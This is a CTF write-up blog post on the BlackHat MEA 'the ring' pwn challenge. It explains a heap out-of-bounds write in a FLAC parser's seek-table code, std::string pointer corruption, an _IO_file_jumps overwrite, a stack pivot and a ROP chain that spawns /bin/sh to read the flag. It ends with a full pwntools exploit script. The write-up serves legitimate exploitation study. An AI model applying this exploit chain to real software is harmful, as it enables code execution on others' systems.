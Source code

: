 +++
title = 'the ring - BlackHat MEA CTF'
date = 2024-09-02T20:24:09+02:00
draft = false
+++

I had a fun time playing BlackHat MEA CTF. this pwn challenge was particulary nice.

in "the ring" you were given a `FLAC` audio file parser, written in C++.
you can provide such a custom audio file and get presented the output of the program.
notice that there is a python wrapper handling the file and outputs readable text only.

now the general functionality of the program:
the program checks the magic bytes first (`#define FLAC_MAGIC 0x664c6143U`) and then immedeately
starts looking for the initial `TYPE_STREAMINFO` block, which may be followed by more blocks.

blocks in this case are chunks of data, that have a specific type and data associated to them.
in the header file we can find the following block types:
```c
enum FlacType {
  TYPE_STREAMINFO = 0,
  TYPE_PADDING,
  TYPE_APPLICATION,
  TYPE_SEEKTABLE,
  TYPE_VORBIS_COMMENT,
  TYPE_CUESHEET,
  TYPE_PICTURE,
};
```
each block is handeled differently and the same type can be present mulitple times.
after looking for some bugs in the individual block functions, I found this:
```c
void FlacFile::parseBlockSeekTable(uint32_t size) {
  if (size % 18) {
    _lastError = FLAC_INVALID_SEEKTABLE;
    return;
  }

  uint32_t tableCount = size / 18;
  _seekPoints.resize(tableCount);
  for (size_t i = 0; i < tableCount; i++) {
    _seekPoints[_seekPointsCount].number = getBig64();
    _seekPoints[_seekPointsCount].offset = getBig64();
    _seekPoints[_seekPointsCount].sampleCount = getBig16();
    _seekPointsCount++;
  }
}
```
the problem is the index variable `_seekPointsCount` due to it not being reset after the loop.
we can put multiple blocks of type `TYPE_SEEKTABLE` with the same and constant `size`.
now `_seekPointsCount` acts like a global counter will eventually become greater than `size`.
this allows an out-of-bounds write on the heap.

as a target I chose a block of type `TYPE_VORBIS_COMMENT`, because it internal structure has `std::string`s as members,
lying on the heap and getting reused too. now you could corrupt the `pointer` of
a `std::string` object, that specifies where the data is stored.
```
0xf2e7630:      0x000000000f2e7640      0x0000000000000078      // [pointer]    [size_type]
0xf2e7640:      0x4141414141414141      0x4141414141414141
```

if you read data in that string again, you can write to your custom address.
I used `vendor` and one string if `commentList` as targets.
the binary was statically linked and there was no pie, so we had all th freedom we needed.

to get rip control, I chose `_IO_file_jumps` to overwrite, which was `rw` in the binary.
overwriting the entry of `fflush` was quite useful, since the registers contained good values.
many of them pointed to `stderr`, so that's where I wrote to with the second `std::string`.
after some fiddling around and using the gadget `mov rsp, rcx ; pop rcx ; jmp rcx`, I was able
to pivot the stack to `stderr`, where my ropchain was lying.

so all that was left to do now is to rop. be careful that you don't have stdin and that you
can only print human readable characters. the easiest way to do this was to create an `execve` call:
```
execve("/bin/sh", ["/bin/sh", "-c", "cat", "/flag*"], NULL)
```
this was rather simple to do and sucessfully outputs the flag file:
```
[+] Starting local process '/usr/bin/python3': pid 252854
[*] Switching to interactive mode
: === FLAC Info ===
FLAG{*** REDACTED ***}

[*] Got EOF while reading in interactive
$
```
exploit code:
```py
from pwn import *
import subprocess

TYPE_STREAMINFO = 0
TYPE_PADDING = 1
TYPE_APPLICATION = 2
TYPE_SEEKTABLE = 3
TYPE_VORBIS_COMMENT = 4
TYPE_CUESHEET = 5
TYPE_PICTURE = 6

def p24(x, endian='little'):
    return p32(x, endian=endian)[1:]

file_jumps = 0x5de100
stderr_ptr = 0x5deca0
stderr_stuff = 0x5e2560
gadget = 0x4a8c39 # mov rsp, rcx ; pop rcx ; jmp rcx

pop_rax = 0x42111a
pop_rdi = 0x40591d
pop_rsi = 0x4073a3
pop_rdx_rbx = 0x533dab
binsh = file_jumps
binsh_args = binsh + 0x18
syscall = 0x4db386
ret = 0x40101a

f = open("./payload", "wb+")

overflow = b""
overflow += p8(TYPE_SEEKTABLE, endian='big')
overflow += p24(0x12, endian='big') # len
overflow += p64(0x4242424242424242, endian='big')
overflow += p64(file_jumps, endian='big')
overflow += p16(0x4242, endian='big')

overflow1 = b""
overflow1 += p8(TYPE_SEEKTABLE, endian='big')
overflow1 += p24(0x12, endian='big') # len
overflow1 += p64(stderr_ptr, endian='big')
overflow1 += p64(0x100, endian='big')
overflow1 += p16(0x4343, endian='big')

payload = b"/bin/sh\x00-c\x00cat /flag*\x00AA" + p64(binsh) + p64(binsh+8) + p64(binsh+11) + p64(0x0) + b"A"*0x20 + p64(gadget)
payload = payload.ljust(0x78, b"\x41")

rop = b""
rop += p64(ret)
rop += p64(pop_rax)
rop += p64(0x3b)
rop += p64(pop_rdi)
rop += p64(binsh)
rop += p64(pop_rsi)
rop += p64(binsh_args)
rop += p64(pop_rdx_rbx)
rop += p64(0x0)
rop += p64(0x0)
rop += p64(syscall)
rop += p64(pop_rax)
rop += p64(0x3c)
rop += p64(pop_rdi)
rop += p64(0x0)
rop += p64(syscall)

comment = b""
comment += p8(TYPE_VORBIS_COMMENT, endian='big')
comment += p24(0x1c+0x70+0xd8, endian='big') # len
comment += p32(0x78) # len
comment += payload # vendor
comment += p32(0x1) # count
comment += p32(0xe0) # len
comment += p64(ret) + rop + p64(stderr_stuff) + b"A"*0x48 + p64(file_jumps+0x58-0x60)

end = b""
end += p8(TYPE_CUESHEET | 128, endian='big')
end += p24(0, endian='big')

filedata = b""
filedata += p32(0x664c6143, endian='big')
filedata += p8(TYPE_STREAMINFO, endian='big')
filedata += p24(34, endian='big') # len
filedata += p16(0x1337, endian='big')
filedata += p16(0x1338, endian='big')
filedata += p24(3, endian='big')
filedata += p24(4, endian='big')
filedata += p32(5, endian='big')
filedata += p32(6, endian='big')
filedata += b"Z"*0x10

filedata += overflow

filedata += comment

filedata += overflow
filedata += overflow1*9

filedata += comment

filedata += end

f.write(filedata)
f.close()

context.terminal = ["tmux", "splitw", "-h"]

p = remote("18.203.110.195", 30624)
#p = process(["python3", "./run.py"])
#p = gdb.debug(["./parser", "./payload"])

p.recvuntil("proof of work:\n")
cmd = p.recvline().strip(b"\n").decode("ascii")
print(cmd)
sol = input("solution: ")
p.sendline(sol)

p.sendlineafter(b"Size", str(len(filedata)).encode("ascii"))
p.sendlineafter(b"File", filedata)
p.interactive()
```